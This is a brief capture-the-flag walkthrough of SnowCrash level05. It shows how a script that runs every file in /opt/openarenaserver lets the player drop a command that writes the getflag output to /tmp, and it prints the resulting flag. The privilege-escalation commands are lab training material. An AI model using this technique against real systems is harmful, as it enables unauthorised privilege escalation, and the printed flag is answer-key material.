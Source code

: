 # Privilege escalation

## Explore files
```
level05@SnowCrash:~$ ls -la
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc
-r-x------  1 level05 level05  675 Apr  3  2012 .profile
```
Gives nothig so we try find

```
level05@SnowCrash:~$ find / -user flag05 -group flag05 -ls 2>/dev/null | grep -v proc
 11521    4 -rwxr-x---   1 flag05   flag05         94 Mar  5  2016 /usr/sbin/openarenaserver
 37846    1 -rwxr-x---   1 flag05   flag05         94 Mar  5  2016 /rofs/usr/sbin/openarenaserver

```
AH here we have something to work with
permission says it is executable

```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

It executes all files inside /opt/openarenaserver/ and then deletes them
one by one

so we can create a script that gets the flag and saves it in a specific file

```
echo "getflag > /tmp/flag05" > /opt/openarenaserver/script.sh

cat /tmp/flag05

viuaaale9huek52boumoomioc
```
